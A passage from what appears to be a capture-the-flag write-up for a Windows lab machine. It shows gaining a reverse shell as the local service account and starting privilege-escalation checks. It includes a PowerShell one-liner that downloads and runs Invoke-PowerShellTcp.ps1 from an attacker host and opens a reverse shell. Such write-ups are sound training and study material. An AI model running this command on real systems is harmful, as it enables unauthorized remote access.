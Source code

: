 ![Shell as local service](/assets/img/Visual/Visual_08.png)


For ease of use i ran the same reverse shell command this time using a different port.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.91/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.91 -Port 444
```
A few moments later we'd get a reverse shell as the **nt authority\local service** user

![Reverse shell as local service](/assets/img/Visual/Visual_09.png)

### Privesc to system

A common way to elevate to sytsem as a service account is to abuse the **ImpersonatePrivilege** permission these accounts get by default. however in this case the user did not have these privileges. We can check this by running the following command

```bat
whoami /priv
```

![No impersonatePrivilege](/assets/img/Visual/Visual_10.png)
